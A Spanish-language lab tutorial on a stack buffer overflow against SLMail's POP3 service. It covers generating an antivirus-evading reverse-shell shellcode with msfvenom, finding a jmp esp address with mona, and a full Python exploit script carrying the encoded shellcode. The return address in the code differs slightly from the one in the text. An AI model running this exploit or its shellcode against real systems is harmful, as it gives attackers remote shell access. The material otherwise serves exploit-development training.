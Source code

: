 

Ahora sabiendo cuales son los badchars que tiene el servicio ahora sigue generar un shellcode que se encargue de entablar una reverse shell esta debe ser un conjunto de instrucciones en hexadecimal para meterlas en la pila para que cuando esta se interpretada nos permita ganar acceso a la maquina esto se puede hacer con ayuda de msfvenom 

Primero lo que tenemos que hacer es saber que payload vamos a utlizar para listar los payload podemos usar el siguiente comando 

```bash 
msfvenom -l payloads
```

Este nos mostrara todos los payloads existentes que se pueden utlizar en nuestro caso que queremos hacer una reverse shell utilizaremos este

![[Pasted image 20240309115124.png]]

Otra cosa que tenemos que tener encuenta es que encoder vamos a utilizar para listarlos todos podemos hacerlo con el siguiente comando


```bash
msfvenom -l encoders
```

Este nos mostrara todos los encoders disponibles por defecto casi siempre se utiliza el shikata_ga_nai  en nuestro caso es el que utlizaremos

![[Pasted image 20240309121759.png]]

Ahora ya todo esto identificado ya podemos crear nuestro shellcode para esto podemos utlizar el siguiente comando


![[Pasted image 20240309122928.png]]

Este comando genera un payload malicioso para Windows de 32 bits que establece una conexión de shell inverso utilizando TCP hacia una dirección IP en un puerto especifacado, utilizando una técnica de codificación para evadir la detección de antivirus y evitando ciertos bytes para asegurar una ejecución más efectiva.

Ahora al ejecutarlo nos da nuestro shellcode 

![[Pasted image 20240309123035.png]]

Este shellcode lo copiamos ya que luego lo vamos utilizar en el exploit para insertarlo en la pila para que sea interpretado y nos envie una consola interactiva a nuestra maquina atacante pero antes tenemos que encontrar los opcodes ya que no le podemos decir a EIP que vaya directamente al ESP por lo que lo mejor es apuntar a una direccion que aplique como opcode y de un salto para el ESP entonces lo que vamos hacer es ejecutar el siguiente comando en immunty debugger 

![[Pasted image 20240309194509.png]]

Al ejeuctarlo nos muestra una lista de protecciones la idea es utilizar una direccion donde todas las protecciones esten todas tornadas a false por ejemplo podemos seleccionar el siguiente dll 

![[Pasted image 20240309195608.png]]

Ya con este identificado ahora lo que vamos hacer es tratar de buscar es una instruccion de tipo jmp esp para ver si dentro de esta dll hay una direccion que aplique este opcode asi hacemos que el EIP apunte a esta direccion y de esta forma se aplique un salto al ESP entonces como lo vamos a lograr el opcode correspondiente al jmp esp tenemos que saber cual es para eso podmes usar la siguiente herramienta de metasploit 

![[Pasted image 20240309202027.png]]

Al ejecutar esta herramienta escribimos jmp esp y le damos al enter esto nos dara esto que corresponde al jmp esp

![[Pasted image 20240309202218.png]]

Entonces ahora ya con esto y con el modulo que vamos a utlizar nos dirigimos al immunity debugger y con ayuda de mona usamos el siguiente comando 

![[Pasted image 20240309202729.png]]

Esto si lo ejecutamos nos mostrara una serie de direcciones entonces lo siguiente que tienes que hacer es escoger cualquier direccion pero que esta no tenga los badchars que habiamos detectado en este caso podemos identificar la siguiente 

![[Pasted image 20240309203419.png]]


Ahora lo siguiente que tendriamos que hacer es copiar la direccion y con esta y el shellcode antes generado modifcar el exploit quedaria de la siguiente manera


```python

#!/usr/bin/python3.11
from struct import pack

import sys
import socket

ip = "192.168.0.2"
port = 110


offset=4655

before_eip=b"A"*offset

eip=pack("<L",0x5f4c4d13)

shellcode=(b"\xdb\xc2\xbe\xa1\x84\x28\xe1\xd9\x74\x24\xf4\x5a\x2b\xc9"
b"\xb1\x52\x83\xea\xfc\x31\x72\x13\x03\xd3\x97\xca\x14\xef"
b"\x70\x88\xd7\x0f\x81\xed\x5e\xea\xb0\x2d\x04\x7f\xe2\x9d"
b"\x4e\x2d\x0f\x55\x02\xc5\x84\x1b\x8b\xea\x2d\x91\xed\xc5"
b"\xae\x8a\xce\x44\x2d\xd1\x02\xa6\x0c\x1a\x57\xa7\x49\x47"
b"\x9a\xf5\x02\x03\x09\xe9\x27\x59\x92\x82\x74\x4f\x92\x77"
b"\xcc\x6e\xb3\x26\x46\x29\x13\xc9\x8b\x41\x1a\xd1\xc8\x6c"
b"\xd4\x6a\x3a\x1a\xe7\xba\x72\xe3\x44\x83\xba\x16\x94\xc4"
b"\x7d\xc9\xe3\x3c\x7e\x74\xf4\xfb\xfc\xa2\x71\x1f\xa6\x21"
b"\x21\xfb\x56\xe5\xb4\x88\x55\x42\xb2\xd6\x79\x55\x17\x6d"
b"\x85\xde\x96\xa1\x0f\xa4\xbc\x65\x4b\x7e\xdc\x3c\x31\xd1"
b"\xe1\x5e\x9a\x8e\x47\x15\x37\xda\xf5\x74\x50\x2f\x34\x86"
b"\xa0\x27\x4f\xf5\x92\xe8\xfb\x91\x9e\x61\x22\x66\xe0\x5b"
b"\x92\xf8\x1f\x64\xe3\xd1\xdb\x30\xb3\x49\xcd\x38\x58\x89"
b"\xf2\xec\xcf\xd9\x5c\x5f\xb0\x89\x1c\x0f\x58\xc3\x92\x70"
b"\x78\xec\x78\x19\x13\x17\xeb\xe6\x4c\x17\x6b\x8e\x8e\x17"
b"\x6a\xf4\x06\xf1\x06\x1a\x4f\xaa\xbe\x83\xca\x20\x5e\x4b"
b"\xc1\x4d\x60\xc7\xe6\xb2\x2f\x20\x82\xa0\xd8\xc0\xd9\x9a"
b"\x4f\xde\xf7\xb2\x0c\x4d\x9c\x42\x5a\x6e\x0b\x15\x0b\x40"
b"\x42\xf3\xa1\xfb\xfc\xe1\x3b\x9d\xc7\xa1\xe7\x5e\xc9\x28"
b"\x65\xda\xed\x3a\xb3\xe3\xa9\x6e\x6b\xb2\x67\xd8\xcd\x6c"
b"\xc6\xb2\x87\xc3\x80\x52\x51\x28\x13\x24\x5e\x65\xe5\xc8"
b"\xef\xd0\xb0\xf7\xc0\xb4\x34\x80\x3c\x25\xba\x5b\x85\x45"
b"\x59\x49\xf0\xed\xc4\x18\xb9\x73\xf7\xf7\xfe\x8d\x74\xfd"
b"\x7e\x6a\x64\x74\x7a\x36\x22\x65\xf6\x27\xc7\x89\xa5\x48"
b"\xc2")
payload=before_eip+eip+shellcode 

def exploit():

    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    s.connect((ip, port))

    banner = s.recv(1024)

    s.send(b"USER tumbaburras" + b'\r\n')
    response = s.recv(1024)

    s.send(b"PASS" + payload + b'\r\n')


    s.close

if __name__ == '__main__':

    exploit()




```

Ahora vamos a comprobar si realmente el flujo del programa va a ir a la direccion especificada y si de verdad se va a entrar al ESP para comprobar esto primero tendremos que reiniciar el immunity debugger y el slmail ya reniciados nos dirigimos en al immunity debugger y presionamos el siguiente boton

![[Pasted image 20240309212854.png]]

Al presionarlo nos saldra una ventana donde ingresaremos al anterior direccion que hemos encontrado al especificarla le damos click al boton de ok

![[Pasted image 20240309213209.png]]

Si nos fijamos podemos ver que el opcode tiene un jmp esp

![[Pasted image 20240309213458.png]]

Entonces lo que vamos a hacer es meter un breakpoint en esta direccion para ver si el flujo del programa pasa por aqui para eso seleccionamos donde queremos colocar el break point y presionamos f2 nos aparecera este mensaje pero indicamos que si queremso poner el break point

![[Pasted image 20240309213905.png]]

Ahora vamos a ver si al ejecutar el exploit el EIP corresponde al valor de 5f4ced13 entonces ejecutamos el exploit

![[Pasted image 20240309214348.png]]

Y si ahora nos dirigimos al immunity debugger podemos ver que claramente el EIP vale la direccion que especificamos 


![[Pasted image 20240309214457.png]]

Ahora bien si ahora el EIP esta apuntando a la direccion que especificamos que es la que contempla la siguiente instruccion que se tiene que ejecutar la cual es la que salta al esp por tanto si en verdad se va a aplicar un salto al ESP el valor del ESP se tiene que ver representado en el EIP entonces si ahora nosotros clikeamos el siguiente boton el cual hace que se salte al siguiente instruccion 


![[Pasted image 20240309215044.png]]

Al darle click podemos ver que EIP se iguala a lo que vale ESP esto significa que el EIP ahora esta entrado al ESP que es donde se encuentra nuestro shellcode


![[Pasted image 20240309215352.png]]

Lamentablemente el shellcode no sera aun no sera interpretado para eso se le tiene que dar un espacio 






